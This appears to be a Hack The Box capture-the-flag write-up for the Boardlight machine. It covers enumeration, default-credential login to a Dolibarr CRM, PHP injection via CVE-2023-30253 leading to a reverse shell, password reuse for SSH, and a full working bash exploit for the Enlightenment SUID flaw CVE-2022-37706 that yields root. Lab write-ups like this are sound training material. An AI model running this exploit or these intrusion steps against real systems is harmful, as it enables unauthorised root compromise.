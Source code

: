 ```yaml
---
layout: post
title: "[HTB] Boardlight Writeup"
slug: "boardlight"
date: "2024-10-04"
comments: false
categories:
  - hacking
tags:
  - ctf
  - cve
  - hack the box
  - crm
---
```


### Enumeration
**IP**: 10.10.11.11

#### Nmap

```bash
> nmap -sC -sV -v 10.10.11.11
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.22)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/administrator/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.22)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/administrator/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have a few ports open, let us enumerate the `http` port first.

![img](/images/boardlight/index.png)

We can see that `info@board.htb` is written in about section. We let's add that as the hostname to our given ip address.

![img](/images/boardlight/board.htb.png)

Enumerating subdomain using vhosts we have a hit.

![img](/images/boardlight/crm.board.png)

Let's add `crm.board.htb` to our `/etc/hosts` and enumerate it.

We found a login page for a `crm`.
![img](/images/boardlight/crm.board.index.png)

On googling the version number of the crm software we find that there is a cve.
[CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). Searching for POC we get a [starlabs.sg](https://starlabs.sg/advisories/23/23-4197/)

So we have authenticated rce by injecting php code. Our initial step is to find credentials for authentication. After googling for default credentials, we can try `admin:admin`.

![img](/images/boardlight/dashboard.crm.png)

Add `<?php ?>` tags to the payload in the **POC**.

![img](/images/boardlight/poc.png)

We get RCE and executed a command. Now create a listener on your host and get a reverse shell.

![img](/images/boardlight/cmd.png)

![img](/images/boardlight/nc.png)

Navigating to `/home` we get a user `larissa`. After some investigation into `/var/www/html/crm.board.htb` we find `conf.php` at `/var/www/html/crm.board.htb/htdocs/conf/conf.php`.

![](/images/boardlight/conf.png)

So we have `dolibarrowner:serverfun2$2023!!` as credentials. Reuse the password with `larissa`

We can ssh with the credentials.

![img](/images/boardlight/ssh.png)

We now have user. Let's try to find escalation vectors for root.

Running `linpeas` on the system we find a binary with `SUID`bit set. So let's google the binary.

![img](/images/boardlight/enlightenment.png)

We find that there is a CVE and exploit from [exploitdb](https://www.exploit-db.com/exploits/51180)

Here is modified script for the exploit.
```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

We now have root.
![img](/images/boardlight/root.png)

Machine has been pwned.
![img](/images/boardlight/pwned.png)
